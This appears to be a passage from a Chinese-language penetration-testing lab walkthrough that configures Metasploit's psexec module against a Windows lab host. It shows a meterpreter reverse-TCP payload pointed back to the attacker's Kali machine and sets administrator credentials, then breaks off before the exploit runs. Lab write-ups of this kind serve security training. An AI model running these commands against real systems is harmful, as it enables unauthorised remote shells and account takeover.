 ```
   10  exploit/windows/local/wmi                    1999-01-01       excellent  No     Windows Management Instrumentation (WMI) Remote Command Execution


Interact with a module by name or index. For example info 10, use 10 or use exploit/windows/local/wmi
```

目标的SMB服务挂掉了，所以重启了实验室。

10.0.17.96    demo.ine.local

Kali Linux: 10.10.21.2

```
root@attackdefense:~# msfconsole -q
msf6 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBUser                                no        The username to authenticate as


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.21.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/smb/psexec) > setg RHOSTS 10.0.17.96
RHOSTS => 10.0.17.96
msf6 exploit(windows/smb/psexec) > set SMBUser Administrator
SMBUser => Administrator
msf6 exploit(windows/smb/psexec) > set SMBPass vagrant
SMBPass => vagrant
```
